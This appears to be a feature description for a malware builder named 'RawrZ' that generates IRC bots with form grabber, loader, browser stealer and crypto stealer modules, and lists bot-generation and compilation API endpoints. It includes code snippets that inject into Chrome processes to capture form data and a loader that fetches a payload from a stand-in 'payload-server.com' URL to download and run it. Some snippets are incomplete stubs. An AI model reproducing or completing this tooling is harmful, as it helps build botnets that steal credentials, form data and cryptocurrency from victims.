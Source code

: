 ### **Web Interface Updates**
- **New Checkboxes**: Form Grabber, Loader, Browser Stealer, Crypto Stealer
- **Feature Mapping**: Proper camelCase to lowercase conversion
- **Dynamic Generation**: Real-time bot code generation
- **Multi-Language Support**: All programming languages supported

### **API Endpoints**
- **`/irc-bot/generate`**: Enhanced bot generation with new features
- **`/irc-bot/features`**: Updated feature listing
- **`/irc-bot/templates`**: Template management
- **`/irc-bot/test`**: Bot testing capabilities
- **`/irc-bot/compile`**: Compilation support

## 📊 **FEATURE BREAKDOWN**

### **Form Grabber Capabilities**
```cpp
// C++ Form Grabber
void startFormGrabber() {
    // Hook into browser processes
    HWND hwnd = FindWindow(NULL, L"Chrome");
    if (hwnd) {
        // Inject form grabbing DLL
        DWORD processId;
        GetWindowThreadProcessId(hwnd, &processId);
        HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, processId);
        // Load form grabber DLL and inject
    }
}
```

```python
# Python Form Grabber
def start_form_grabber(self):
    import psutil
    for proc in psutil.process_iter(['pid', 'name']):
        if 'chrome' in proc.info['name'].lower():
            self.inject_form_grabber(proc.info['pid'])
```

```javascript
// JavaScript Form Grabber
startFormGrabber() {
    const browser = await puppeteer.launch({ headless: true });
    const page = await browser.newPage();
    // Monitor form submissions and capture data
}
```

### **Loader Capabilities**
```cpp
// C++ Loader
void startLoader() {
    HINTERNET hInternet = InternetOpen(L"RawrZLoader", INTERNET_OPEN_TYPE_DIRECT, NULL, NULL, 0);
    HINTERNET hConnect = InternetOpenUrl(hInternet, L"http://payload-server.com/payload.exe", NULL, 0, INTERNET_FLAG_RELOAD, 0);
    // Download and execute payload
}
```
